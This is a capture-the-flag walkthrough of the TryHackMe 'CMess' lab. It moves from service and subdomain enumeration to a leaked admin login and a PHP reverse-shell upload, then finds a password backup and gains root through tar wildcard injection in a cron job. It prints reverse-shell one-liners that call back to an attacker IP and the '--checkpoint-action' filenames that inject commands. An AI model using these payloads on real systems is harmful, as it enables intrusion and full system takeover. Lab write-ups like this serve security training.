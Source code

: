 # CMess

## Enumeration

to begin we are told to add the target IP to our host file 
command: ```nano /etc/hosts ```
``` <IP_address>    cmess.thm ```

now let's run an Nmap scan to discover what services are running on our target.

command: ``` nmap -sC -sV -P0 <TARGET_IP> ```

![Alt text](cmess1.png)

with our scan complete we can see that we have two open ports and services running on our target system.

- port 22 ***(SSH)***
- port 80 ***(HTTP)***

we navigate to the webpage. 
![Alt text](cmess2.png)

so from our scan since we ran we can see that it has enumerated a ***robots.txt*** file on the server with 3 disallowed entries. but after navigating manually through each of them, they provide us with a 403 forbidden message.

![Alt text](cmess3.png)

so from this, we can attempt to brute force for other hidden directories using Gobuster.

command: ``` gobuster dir  -u http://cmess.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt ```


![Alt text](cmess4.png)

from our directory brute force, we just discovered two interesting directories ***login*** and ***admin***. now we navigate to it, but it seems that we require an email address and password to authenticate. 

using our hint, we can attempt performing a sub-domain enumeration using wfuzz 

command:  ``` wfuzz -c -f sub-fighter -w /root/subdomains.txt -u "http://cmess.thm" -H "Host: FUZZ.cmess.thm" --hl 125 ```


![Alt text](cmess5.png)

so we wait for the enumeration to complete then we can see that we have discovered a sub domain ***dev.cmess.thm***

command: ```grep 104 sub-fighter '''

![Alt text](cmess6.png)

now let's add that to our host file and navigate over to the site 

![Alt text](cmess7.png)

from the development log, we can see the login credentials we need to access the admin panel.

***email:*** ``` andre@cmess.thm ```
***password:*** ``` KPFTN_f2yxe% ```

now we Try to log in on cmess.thm/admin with these credentials

![Alt text](cmess8.png)

on the content tab -> File Manager, we can see an upload functionality which we can try to exploit. Try to upload reverse shell because the website is running on an Apache server PHP is very convenient for reverse shell.

![Alt text](cmess9.png)


so on Kali, we can find some web shells under the following directory 

``` /usr/share/webshells/php/ ```
to get this to our current working directory we can utilize the ***cp*** command to copy the files.

![Alt text](cmess10.png)

command: ```cp /usr/share/webshells/php/php-reverse-shell.php <CURRENT_WORKING_DIRECTORY> ```

remember to change the IP variable value with your IP and set the port number.

![Alt text](cmess11.png)

all uploads are stored in the assets folder. 

![Alt text](cmess12.png)

![Alt text](cmess13.png)

now to get a reverse connection once the script is executed we must set a netcat listener on our attack machine to listen and catch the request

command: ```nc -lnvp 4444 ```

![Alt text](cmess14.png)

to execute the reverse shell script navigate to the following path 

```http://cmess.thm/assets/<filename>```


![Alt text](cmess15.png)

we have successfully gotten a shell as user ***www-data***. we need to get access to escalate our privileges to the user andre so we can get the user flag.

now we can attempt to find a privilege escalation path using linpeas.sh

linpeas.sh is an automated tool for finding vulnerabilities in Linux systems.

to download Linpeas onto our machine we can use the following command 

``` wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh ```

![Alt text](cmess16.png)

now we would need to transfer this file to our target system by using a simple Python server from our local machine.

to do this we simply run the following command in the directory we downloaded and saved the linpeas files.

command: ``` python3 -m http.server <port_number>


![Alt text](cmess17.png)

Note: during a pentest, it is important to note that the file you transfer over to the target machine should always be stored in the ***/tmp*** folder to avoid the user finding them.


![Alt text](cmess19.png)

![Alt text](cmess18.png)

now we make the script executable and run it using the following command 

command: ```chmod +x linpeas.sh && ./linpeas.sh```


![Alt text](cmess20.png)

from linpeas enumeration, we found a bak file which is a backup file. we also found a cron job that can possibly be exploited to gain root access.



![Alt text](cmess21.png)

we can attempt to view the ***.password.bak*** 

command: ``` cat /opt/.password.bak```

![Alt text](cmess22.png)

It looks like the backup password of the andre but how we can use it? We know SSH is open on the 22 port try to sign in using this password.

command: ```ssh andre@cmess.thm ```

now we have successfully logged in as andre via the SSH credentials we found.

![Alt text](cmess23.png)

to get our ***user flag*** we can simply look at the file

![Alt text](cmess24.png)

we finally got our first flag.

## Gaining Root Access

Now we can access Andre’s folder let’s see what the cron job does that we found using Linpeas.

command: ```cat /etc/crontab ```


![Alt text](cmess25.png)

In this situation, a backup process occurs every 2 minutes, copying all files and folders from the /home/andre/backup directory to the /tmp directory in the form of andre_backup.tar.gz. It utilizes the tar command, and a noteworthy aspect is the use of the wildcard (*) character, signifying that anything within the /home/Andre/backup directory is included in the backup. This particular functionality may pose a security risk, as it opens the possibility of exploiting the system.

to gain a root shell we can create a payload using msfvenom

command: ``` msfvenom -p cmd/unix/reverse_netcat lhost=10.18.73.117 lport=4040 R ```

![Alt text](cmess26.png)

now we set up our listener 

command: ``` nc -lnvp <port> ```

Let's now echo our payload into “exploit.sh” and create the 2 directories needed for this exploit.

``` echo "mkfifo /tmp/txvij; nc 10.18.73.117 4040 0</tmp/txvij | /bin/sh >/tmp/txvij 2>&1; rm /tmp/txvij" > shell.sh ```

```echo "" > "--checkpoint-action=exec=sh shell.sh" && echo "" > --checkpoint=1 ```

![Alt text](cmess27.png)

Now we wait for the cron job to run and we should get tar interpret the commands and execute our shell.sh file.

and now we have our root shell and flag.

![Alt text](cmess28.png)




